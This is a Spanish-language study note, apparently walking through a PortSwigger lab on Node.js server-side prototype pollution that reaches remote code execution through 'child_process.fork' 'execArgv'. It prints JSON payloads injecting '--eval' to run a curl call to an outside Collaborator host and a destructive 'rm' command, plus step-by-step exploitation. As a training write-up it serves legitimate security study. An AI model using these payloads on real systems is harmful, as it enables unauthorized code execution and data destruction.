

---
aliases:
  - PP 006 - RCE execArgv fork
  - child_process.fork
tags:
  - vuln/prototype-pollution
  - example
  - portswigger
---

# 006 — RCE server-side vía `child_process.fork()` (`execArgv`)

> Lab: [Remote code execution via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution) · Practitioner · → [[vulnerabilities/020-prototype-pollution/prototype-pollution|entry point]]

## Qué muestra
El salto de prototype pollution a **RCE** en Node. `child_process.fork(modulePath[, args][, options])` acepta `options.execArgv`: los **argumentos de línea de comando del proceso hijo Node**. Si el dev no lo define, lo controlás por contaminación e inyectás `--eval` para ejecutar JS arbitrario.

## El payload

Confirmación no destructiva (Collaborator):
```json
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

Objetivo del lab (destructivo, hacelo al final):
```json
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

## Diagrama



## Por qué funciona
`execArgv` es un **gadget**: `fork()` lo lee de `options` y, al estar `undefined`, hereda el array contaminado. `node --eval=<code>` ejecuta el código al arrancar el hijo → RCE.

## Cómo explotarlo (paso a paso)
1. Confirmá la vuln (reflexión o `json spaces`) → [[vulnerabilities/020-prototype-pollution/examples/003-server-side-deteccion-a-ciegas|003]].
2. Escalá a admin si hace falta (`isAdmin`) → el disparador ("maintenance jobs") suele estar en el admin panel.
3. Contaminá `execArgv` con el `--eval` de **curl a Collaborator** (no destructivo).
4. Dispará el maintenance job → mirá Collaborator. Si hay interacción, tenés RCE.
5. Recién ahí cambiá el comando por el destructivo del lab (`rm /home/carlos/morale.txt`).

## Verificación
- Interacción en Burp Collaborator tras disparar el job = ejecución de comando confirmada.

## Detalles que se pasan por alto
- El **disparo es asíncrono**: contaminás primero y el sink corre cuando alguien ejecuta el job.
- Confirmá **siempre** con Collaborator antes de un comando destructivo (podés dejar el server inservible).
- Si el sink es `execSync()`/`spawn()` en vez de `fork()`, el gadget cambia a `shell`+`input` → [[vulnerabilities/020-prototype-pollution/examples/007-server-side-rce-exfil-execsync|007]].

→ Siguiente: [[vulnerabilities/020-prototype-pollution/examples/007-server-side-rce-exfil-execsync|007 · RCE / exfiltración vía execSync()]]
